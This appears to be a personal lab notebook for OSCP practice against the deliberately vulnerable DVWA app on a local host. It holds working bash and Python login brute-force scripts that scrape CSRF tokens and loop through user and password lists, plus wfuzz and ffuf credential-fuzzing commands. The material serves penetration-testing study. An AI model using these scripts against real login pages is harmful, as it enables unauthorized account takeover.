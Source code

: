 libapache2-mod-php  mariadb-server php  php-{curl,gd,intl,xml,zip,mbstring,json,mysql}



wfuzz, ffuf, curl


# Login


```bash
curl -s -c cookie  http://oscp.local/dvwa/login.php | sed -n '/<form action="login.php" method="post">/,/<\/form/p' | sed "s/^[ \t]*//" | sed "/^[[:space:]]*$/d"


CSRF="$(curl -s -c cookie  http://oscp.local/dvwa/login.php | awk -F 'value=' '/user_token/ {print $2}' | cut -d "'" -f2)"

curl -s -L -b cookie  -d "username=admin&password=password&user_token=${CSRF}&Login=Login" http://oscp.local/dvwa/login.php | grep Welcome

```
## Brute force
```bash

#!/bin/bash
SUCCESS="You have logged in as 'admin'"
## Password loop
while read -r _PASS; do

    ## Username loop
    while read -r _USER; do
        TOKEN="$(curl -s -c cookie  http://oscp.local/dvwa/login.php | awk -F 'value=' '/user_token/ {print $2}' | cut -d "'" -f2)"
        curl -s -L -b cookie  -d "username=${_USER}&password=${_PASS}&user_token=${TOKEN}&Login=Login" "http://oscp.local/dvwa/login.php" | grep -q "${SUCCESS}"
        if [[ "$?" -eq 0 ]]; then
            echo "Username : ${_USER}"
            echo "Password : ${_PASS}"
            break 2
        # else
        #     echo "${_USER}: ${_PASS}"
        fi

    done < users.txt
done < passwords.txt


```




username=admin
password=password
Login=Login
user_token=${CSRF}


CSRF="$(curl -s -c cookie  http://oscp.local/dvwa/login.php | awk -F 'value=' '/user_token/ {print $2}' | cut -d "'" -f2)"


oscp.local   FALSE   /dvwa/  FALSE   0       security        high
oscp.local   FALSE   /       FALSE   0       PHPSESSID       34e461547954ba7025c53fce6b664f51


```py
#!/usr/bin/python3

import requests
url='http://oscp.local/dvwa'
cookies = requests.session().get(url+'/login.php').cookies.get_dict()
for k, v in cookies.items():
    print("%s=%s"%(k,v),end=';')
```


wfuzz -L -c -z file,users.txt -z file,passwords.txt -b "PHPSESSID=fb7bfc8cae8316ad265ece82c744695a;security=high" -d "username=FUZZ&password=FUZ2Z&Login=Login" --hl 65 http://oscp.local/dvwa/login.php


<input type='hidden' name='user_token' value='a50224842e91e9a1639ea0b404d0e7f7' />


CSRF="$(curl -s -c cookie  http://oscp.local/dvwa/login.php | awk -F 'value=' '/user_token/ {print $2}' | cut -d "'" -f2)"
curl -s -L -b cookie  -d "username=admin&password=password&user_token=${CSRF}&Login=Login" http://oscp.local/dvwa/login.php

CSRF="$(curl -s -b cookie http://oscp.local/dvwa/vulnerabilities/brute/ | awk -F 'value=' '/user_token/ {print $2}' | cut -d "'" -f2)"
echo $CSRF

http://oscp.local/dvwa/vulnerabilities/brute/?username=admin&password=password&Login=Login&user_token=7a6155491c7422a148fc93880facd237#

$ curl -s -b cookie  "http://oscp.local/dvwa/vulnerabilities/brute/?username=admin&password=password&Login=Login&user_token=${CSRF}"

$ curl -b cookie -G http://oscp.local/dvwa/vulnerabilities/brute/ -d "username=admin&password=password&Login=Login&user_token=${CSRF}"

curl -s -c cookie http://oscp.local/dvwa/login.php
curl -s -L -b cookie1 -c cookie2  -d "username=admin&password=password&Login=Login" http://oscp.local/dvwa/login.php | grep Welcome
curl -s  -b cookie1 http://oscp.local/dvwa/vulnerabilities/brute/



# Brute force

```python
#!/usr/bin/python3

import requests
from bs4 import BeautifulSoup
import argparse
from urllib.parse import urlparse

class bcolors:
    HEADER = '\033[95m'
    OKBLUE = '\033[94m'
    OKGREEN = '\033[92m'
    WARNING = '\033[93m'
    FAIL = '\033[91m'
    ENDC = '\033[0m'
    BOLD = '\033[1m'
    UNDERLINE = '\033[4m'

class Login():

    def __init__(self):
        self.url='http://oscp.local/dvwa'
        self.username='admin'
        self.password='password'
        self.submit='Login'
        
        headers = {
            'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0'
        }
        self.headers=headers

        self.logon()
        self.bruteforce()


    def logon(self):
        #Need cookie
        self.cookies = requests.session().get(self.url+'/login.php').cookies.get_dict()
        self.cookies['security'] = 'low'
        print (self.cookies)
        
        data = {
            'username' : self.username,
            'password' : self.password,
            'Login' : self.submit,
        }
        r = requests.post(self.url+'/login.php', data = data, cookies=self.cookies, headers=self.headers)
        # print(r.text)
    
    def bruteforce(self):
        userlist=self.getdata('users.txt')
        passlist=self.getdata('passwords.txt')

        for u  in userlist:
            for p in passlist:
                self.username=u.decode('utf-8')
                self.password=p.decode('utf-8')
                data = {
                    'username' : self.username,
                    'password' : self.password,
                    'Login' : 'Login',
                }
                r = requests.get(self.url+'/vulnerabilities/brute/', params = data, cookies=self.cookies, headers=self.headers)
                soup = BeautifulSoup(r.text, 'html.parser')
                # failed = soup.find("pre").find(text=True)
                failed = soup.find("pre")
                if (failed == None):
                    print(f'{bcolors.OKGREEN} {self.username}:{self.password}{bcolors.ENDC}')
                    exit()
                else:
                    print(f'{bcolors.FAIL} {self.username}:{self.password}{bcolors.ENDC}')


    @staticmethod
    def getdata(path):
        with open(path, 'rb+') as f:
            data = ([line.rstrip() for line in f])
            f.close()
        return data

# class Bruteforce():


login = Login()
```

## Brute force wfuzz

```py
#!/usr/bin/python3

import requests
url='http://oscp.local/dvwa'
cookies = requests.session().get(url+'/login.php').cookies.get_dict()
for k, v in cookies.items():
    print("%s=%s"%(k,v),end=';')
```

curl -s -L -b "PHPSESSID=5664552a826f2a99c7c6121c5fccd657;security=high"  -d "username=admin&password=password&Login=Login" http://oscp.local/dvwa/login.php 


wfuzz -L -c -z file,users.txt -z file,passwords.txt -b "PHPSESSID=fb7bfc8cae8316ad265ece82c744695a;security=high" -d "username=FUZZ&password=FUZ2Z&Login=Login" --hl 65 http://oscp.local/dvwa/login.php

wfuzz -c -z file,users.txt -z file,passwords.txt -b "PHPSESSID=5664552a826f2a99c7c6121c5fccd657;security=high"   "http://oscp.local/dvwa/vulnerabilities/brute/?username=FUZZ&password=FUZ2Z&Login=Login"


 wfuzz -L -c -z file,users.txt -z file,passwords.txt -b "PHPSESSID=5664552a826f2a99c7c6121c5fccd657;security=low" --hs 'Username and/or password incorrect.' "http://oscp.local/dvwa/vulnerabilities/brute/?username=FUZZ&password=FUZ2Z&Login=Login"

wfuzz -c -z file,users.txt -z file,passwords.txt -b "PHPSESSID=5664552a826f2a99c7c6121c5fccd657;security=low" --hh 4572 "http://oscp.local/dvwa/vulnerabilities/brute/?username=FUZZ&password=FUZ2Z&Login=Login"



ffuf -b "PHPSESSID=2ac538770859e2af66fa6e3a2f0d8449;security=low" -w passwords.txt -X GET -u "http://oscp.local/dvwa/vulnerabilities/brute/?username=admin&password=FUZZ&Login=Login" -fr 'incorrect.'     
ffuf -b "PHPSESSID=2ac538770859e2af66fa6e3a2f0d8449;security=low" -w passwords.txt -X GET -u "http://oscp.local/dvwa/vulnerabilities/brute/?username=admin&password=FUZZ&Login=Login" -ms 4637











